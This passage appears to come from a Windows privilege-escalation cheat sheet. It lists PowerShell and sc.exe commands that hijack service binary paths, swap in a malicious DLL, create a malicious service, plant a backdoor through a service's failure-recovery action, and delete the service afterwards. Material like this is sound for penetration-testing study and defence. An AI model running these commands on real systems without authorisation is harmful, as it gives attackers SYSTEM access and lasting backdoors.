 	```powershell
	Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\<service_name>" -Name "ImagePath" -Value "C:\Path\To\Malicious.exe"
	```
2. Restart the service to execute the malicious binary:
    ```powershell
    Restart-Service <service_name>
    ```

#### Exploiting DLL Hijacking via Services
Some services load specific DLLs at startup. If the service has improper permissions on the directory or file, and the current user can modify them, DLL hijacking can be used to escalate privileges.
1. Identify vulnerable services that load DLLs:
	```powershell
	Get-WmiObject -Class Win32_Service | Select-Object Name, StartMode, State, PathName | Where-Object { $_.PathName -like '*.dll' }
	```
2. Replace a vulnerable DLL with a malicious DLL:
	```powershell
	cp C:\Path\To\Malicious.dll C:\Path\To\Vulnerable\DLL.dll
	```
3. Restart the service to load the malicious DLL:
	```powershell
	Restart-Service <service_name>
	```
The malicious DLL will be loaded with SYSTEM privileges, allowing privilege escalation.

#### Create a New Service
If you have sufficient privileges to create services, you can create a new service to run a malicious executable with elevated privileges.
- Create a malicious service:
    ```powershell
    New-Service -Name "<malicious_service_name>" -BinaryPathName "C:\Path\To\Malicious.exe" -Description "Malicious Service" -StartupType Automatic 
    ```
2. Start the service to execute the malicious binary:
    ```powershell
    Start-Service <service_name>
    ```

#### Service Failure Recovery Exploitation
Services often have failure recovery options that can be exploited. If a service is configured to restart or run a program when it fails, you can set the recovery action to execute a malicious script. 
- Set the recovery action to run a malicious command:
    ```powershell
    sc.exe failure <service_name> reset= 0 actions= run/6000/""/C:\Backdoor\backdoor.exe
    ```

#### Delete a Service
- `Remove-Service`: Remove a service to clean up.
	```powershell
	Stop-Service -Name "<malicious_service_name>"
	Remove-Service -Name "<malicious_service_name>"
	```
